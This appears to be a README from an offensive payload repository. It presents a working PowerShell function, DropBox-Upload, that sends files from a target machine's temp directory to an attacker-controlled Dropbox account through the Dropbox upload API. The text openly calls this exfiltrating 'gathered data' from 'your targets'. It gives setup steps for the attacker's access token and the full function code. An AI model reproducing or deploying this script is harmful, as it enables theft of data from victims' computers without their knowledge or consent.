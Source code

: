## Description

This function is used to exfiltrate gathered data to DropBox 

## The Function

### [DropBox-Upload] 

First off for this function to work you need to have a DropBox account. Make one [HERE](https://www.dropbox.com).

Follow this [GUIDE](https://developers.dropbox.com/oauth-guide) for setting up your DropBox account for uploads

Use the following syntax for your upload:

```PowerShell
DropBox-Upload -FileName "file.txt"

or

"file.txt" | DropBox-Upload
```

Make sure to plug in your newly aquired DropBox token in the $DropBoxAccessToken variable below

(this function will exfiltrate a file from your targets temp directory so make sure you save your aquired data to the same directory)

```PowerShell
function DropBox-Upload {

[CmdletBinding()]
param (
	
[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
) 
$DropBoxAccessToken = "YOUR-DROPBOX-ACCESS-TOKEN-HERE"   # Replace with your DropBox Access Token
$outputFile = Split-Path $SourceFilePath -leaf
$TargetFilePath="/$outputFile"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}
```